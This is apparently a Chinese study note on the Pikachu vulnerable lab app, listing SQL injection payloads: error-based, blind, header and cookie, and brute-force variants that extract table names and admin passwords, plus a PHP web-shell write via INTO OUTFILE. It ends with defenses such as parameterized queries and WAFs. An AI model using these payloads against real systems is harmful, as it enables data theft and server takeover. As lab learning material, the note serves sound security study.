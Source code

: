 ```yaml
---
title: pikachu
date: 2022-11-27 14:40:40
tags:
---
```

一、SQL：
1、数字型：
    抓包然后将id=1改成id=1 or 1=1;
2、字符型：
    构造闭合payload,输入：'or 1=1;#

    实战update：
        第一步：kobe' and updatexml(1,version(),0)#
        第二步：kobe' and updatexml(1,concat(0x7e,version()),0)#   得到版本号，其中0x7e是波浪号的16进制，这里也可以用其他符号，主要作用是防止报错信息被过滤。concat的功能是将括号内的两个字符串合并成一个字符串。
                kobe' and updatexml(1,concat(0x7e,database()),0)#
        第三步：kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu')),0)#      报错一次只能显示一行，所以我们可以使用limit一次一次进行获取表名。
                kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu' limit 0,1)),0)#
                获取到表名后再获取列名，思路同上。
                kobe' and updatexml(1,concat(0x7e,(select column_name from information_schema.column where table_schema='pikachu' limit 0,1)),0)#
                然后获取数据。
                kobe' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#
                kobe' and updatexml(1,concat(0x7e,(select password from users where username='admin' limit 0,1)),0)#
    实战extract:
        将update中的updatexml()函数替换成ExtractValue()函数即可
    实战float：
        kobe' and (select count(*),concat(select password from users where username='admin' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)#
3、搜索型：
    xxx%' or 1=1#
4、xx型：
    xx') or 1=1#
5、insert/update注入：
    ' or updatexml(1,concat(0x7e,database()),0) or '
6、delete注入：
    用BP工具包抓包，然后将其中的id改成这段命令：
    1 or updatexml(1,concat(0x7e,database()),0)
    然后将这段命令用URL编码进行编写最后返回浏览器。
7、Http Header注入：
    使用BP工具包进行抓包，然后再在数据头Header中进行测试看看有没有SQL漏洞（将cookie和useragent数据改成单引号'或双引号"看会不会报错）
    user agent:' or updatexml(1,concat(0x7e,database()),0) or '
    cookie:ant[uname]=admin' and updatexml(1,concat(0x7e,database()),0)#; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=56ta7rpkvoff089bo65s8sl5mc
8、基于布尔值的SQL盲注：
    <img src="/images/盲注1.jpg" width="50%" height="50%"/>
    <img src="/images/盲注2.jpg" width="50%" height="50%"/>
    select length(database());       这个可以返回字段长度。如下：
    <img src="/images/盲注3.jpg" width="50%" height="50%"/>
    然后就可以用这个命令来判断返回字段中逐个字母为多少了，具体原理如下：
    <img src="/images/盲注4.jpg" width="50%" height="50%"/>
    基于以上基础知识，我们可以构造出payload：
    kobe' and ascii(substr(database(),1,1))=112#
    并且我们可以更进一步，将上面的database()更改为：(select table_name from information_schema.tables where table_schema = database() limit 0,1)
    kobe' and ascii(substr((select table_name from information_schema.tables where table_schema = database() limit 0,1),1,1))<112#
9、基于时间的SQL盲注：
    <img src="/images/盲注5.jpg" width="50%" height="50%"/>
    点击F12打开web控制台，点击网络(network)选项,随后使用payload: kobe' and sleep(5)#
    随后可以看到控制台上网页过了5000ms才反应。
    <img src="/images/盲注6.jpg" width="50%" height="50%"/>
    kobe' and if((substr(database(),1,1))='p',sleep(5),null)#
10、一句话木马：
    <img src="/images/一句话.jpg" width="50%" height="50%"/>
    使用show global variables like '%secure%';这个命令可以查看secure_file_priv服务是否从null转变为空了。
    构建payload：
    kobe' union select "<?php @eval($_GET['test'])?>",2 into outfile "/var/www/html/1.php"#
    但不清楚怎么获取远程目录和如何编写远程目录，并且MySQL开启secure_file_priv的服务也不清楚，后续再解决。
11、基于盲注的暴力破解(用字符型注入来做演示)：
    破解表名的payload: kobe' and exists(select * from aa)#
    破解列名的payload: kobe' and exists(select id from users)#
    首先将payload输入，随后使用BP工具包抓包，最后再找到要暴力破解的字段，导入字典进行暴力破解！
12、SQL注入常见防范措施：
    代码层面：
        1、对输入进行严格的转义和过滤；
        <img src="/images/防范1.jpg" width="50%" height="50%"/>
        2、使用预处理和参数化。
        <img src="/images/防范2.jpg" width="50%" height="50%"/>
    网路层面：
        1、云端防护(阿里云盾或360网站卫士等)；
        2、通过waf设备启用防SQL注入的策略(或类似防护系统)。
        <img src="/images/防护3.jpg" width="50%" height="50%"/>
        现在除了常规的waf外，还有云waf
        <img src="/images/防护4.jpg" width="50%" height="50%"/>
